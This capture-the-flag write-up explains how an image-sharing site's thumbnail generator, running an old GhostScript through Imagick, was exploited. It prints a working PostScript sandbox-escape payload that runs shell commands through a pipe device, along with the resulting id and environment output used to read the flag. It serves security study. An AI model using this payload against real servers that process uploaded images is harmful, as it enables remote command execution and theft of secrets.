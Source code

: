 # shell-in-the-ghost writeup

We are tasked to extract a secret from a public sharing image websites. When visiting the website we are greeted with an upload form and a list of previous uploads. When we upload an image, it gets added to the list. One important thing to note is that for each upload a thumbnail gets created. At the end of the page we find "Powered by PHP 7.2, Imagick 6.9.7.4 and GhostScript 9.22". Given that the name of this challenge is "Shell in the ghost", this last application is very interesting. Searching the name on google/duckduckgo/..., we find that it is an interpreter for the PostScript language and PDFs, and has had many security bugs in the past. The version this site seems to be running is an older GhostScript version, probably vulnerable to many exploits.

The exploit we will be using today is the first exploit of https://www.openwall.com/lists/oss-security/2018/08/21/2. Essentially, GhostScript support sandboxing to prevent executing arbitrary commands amongst other things. However, under certain conditions triggered by exception handling logic, it is possible to disable these restrictions entirely. Since the image sharing site references Imagick as well, we presumably need to use the Imagick versions of the exploit. Indeed, if we upload "shell_exec.ps" with the following contents

```postscript
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

we get an error, and in the 500 response to the upload we find

```
uid=1000(application) gid=1000(application) groups=1000(application)
Error generating thumbnail
```

Clearly our exploit has worked and we have shell access. Experimenting with some commands, we find that there is a file named 'secret.php'. This could contain the flag we are looking for. If we visit this file with our browser, we get "I won't tell you" as response. However, as we have shell access, we can just cat the file:

```php
<?php

$secret = $_ENV["FLAG"];

die("I won't tell you");

echo "FLG{$secret}";
```

The flag is stored in the environment, so with one final upload of our postscript file, now loaded with the `env` command, we get:

```
CONTAINER_UID=application
USER=application
SUPERVISOR_GROUP_NAME=php-fpm
HOSTNAME=9ad55e463e6b
WEB_DOCUMENT_ROOT=/app
SHLVL=0
HOME=/home/application
DOCKER_CONF_HOME=/opt/docker/
APPLICATION_GROUP=application
APPLICATION_USER=application
WEB_PHP_TIMEOUT=600
LOG_STDERR=/proc/1/fd/2
WEB_DOCUMENT_INDEX=index.php
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APPLICATION_GID=1000
LANG=C.UTF-8
SUPERVISOR_ENABLED=1
LOG_STDOUT=/proc/1/fd/1
SUPERVISOR_SERVER_URL=unix:///.supervisor.sock
SUPERVISOR_PROCESS_NAME=php-fpmd
WEB_ALIAS_DOMAIN=*.vm
LC_ALL=C.UTF-8
PWD=/app
APPLICATION_PATH=/app
APPLICATION_UID=1000
WEB_PHP_SOCKET=127.0.0.1:9000
FLAG=f4e917a7d07bf5c2007f162ae041b0f41f541e0d36a7
```
